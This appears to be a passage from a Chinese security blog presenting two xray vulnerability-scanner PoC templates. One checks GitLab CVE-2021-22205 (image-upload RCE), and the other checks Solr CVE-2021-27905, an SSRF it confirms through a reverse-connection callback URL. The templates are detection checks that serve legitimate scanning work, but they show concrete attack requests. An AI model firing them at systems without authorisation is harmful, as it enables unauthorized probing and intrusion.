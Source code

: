 上传图片触发rce。

由于xray目前支持的编码解码有限，不支持hex解码，所以我们直接写的简单点，使用随机字符进行判断，poc很简单，有手就行。

```
name: poc-yaml-gitlab-cve-2021-22205-rce
set:
  r1: randomInt(1, 9999)
  r2: randomInt(1, 9999)
manual: true
transport: http
rules:
  - method: GET
    path: "/users/sign_in"
    expression: response.status == 200
    search: >-
      name="csrf-token" content="(?P<token>.+?)"
  - method: POST
    path: "/uploads/user"
    headers:
      X-CSRF-Token: |-
        {{token}}
      Content-Type: |-
        multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
      Accept: "*/*"
    body: |-
      ------WebKitFormBoundaryIMv3mxRg59TkFSX5
      Content-Disposition: form-data; name="file"; filename="{{r1}}.jpg"
      Content-Type: image/jpeg
      {{r2}}
      ------WebKitFormBoundaryIMv3mxRg59TkFSX5--
    expression: response.body.bcontains(b'Failed to process image')

detail:
  author: txf(https://github.com/tangxiaofeng7)
  links:
    - https://about.gitlab.com/releases/2021/04/14/security-release-gitlab-13-10-3-released
```

###### CVE-2021-27905

> 这是SSRF漏洞，需要使用反连平台，加上reverse的即可，官方写的很详细了。所以poc很简单，有手就行。

```
name: poc-yaml-solr-cve-2021-27905-ssrf
manual: true
transport: http
set:
  reverse: newReverse()
  reverseURL: reverse.url
rules:
  - method: GET
    path: "/solr/admin/cores?indexInfo=false&wt=json"
    expression: |
      response.status == 200
    search: >-
      "name":"(?P<name>.+?)"
  - method: POST
    path: "/solr/{{name}}/replication/?command=fetchindex&masterUrl={{reverseURL}}"
    expression: |
      reverse.wait(5)
detail:
  author: txf(https://github.com/tangxiaofeng7)
  links:
    - https://github.com/murataydemir/CVE-2021-27905
```
